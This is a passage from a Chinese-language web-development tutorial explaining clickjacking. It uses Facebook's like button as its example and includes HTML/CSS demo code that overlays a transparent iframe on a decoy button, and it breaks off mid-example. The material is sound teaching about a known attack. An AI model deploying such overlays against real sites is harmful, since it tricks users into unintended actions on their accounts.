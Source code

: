 # 3. 点击劫持攻击

“点击劫持”攻击允许恶意页面 **以用户的名义** 点击“受害网站”。

许多网站都被黑客以这种方式攻击过，包括 Twitter、Facebook 和 Paypal 等许多网站。当然，它们都已经被修复了。

## 3.1. 原理

原理十分简单。

我们以 Facebook 为例，解释点击劫持是如何完成的：

1. 访问者被恶意页面吸引。怎样吸引的不重要。
2. 页面上有一个看起来无害的链接（例如：“变得富有”或者“点我，超好玩！”）。
3. 恶意页面在该链接上方放置了一个透明的 `<iframe>`，其 `src` 来自于 `facebook.com`，这使得“点赞”按钮恰好位于该链接上面。这通常是通过 z-index 实现的。
4. 用户尝试点击该链接时，实际上点击的是“点赞”按钮。

## 3.2. 示例

这是恶意页面看起来的样子。为了清楚起见，我们将 `<iframe>` 设置成了半透明的（在真正的恶意页面中，它是全透明的）：

```html
<style>
  iframe {
    /* 来自受害网站的 iframe */
    width: 400px;
    height: 100px;
    position: absolute;
    top: 0;
    left: -20px;
    opacity: 0.5; /* 在实际中为 opacity:0 */
    z-index: 1;
  }
</style>

<div>点击即可变得富有：</div>

<!-- 来自受害网站的 url -->
<iframe src="/clickjacking/facebook.html"></iframe>

<button>点这里！</button>

<div>……你很酷（我实际上是一名帅气的黑客）！</div>
```

完整的攻击示例如下：

```html
<!-- index.html -->
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8" />
  </head>

  <body>
    <style>
      iframe {
        width: 400px;
        height: 100px;
        position: absolute;
        top: 5px;
        left: -14px;
        opacity: 0.5;
        z-index: 1;
```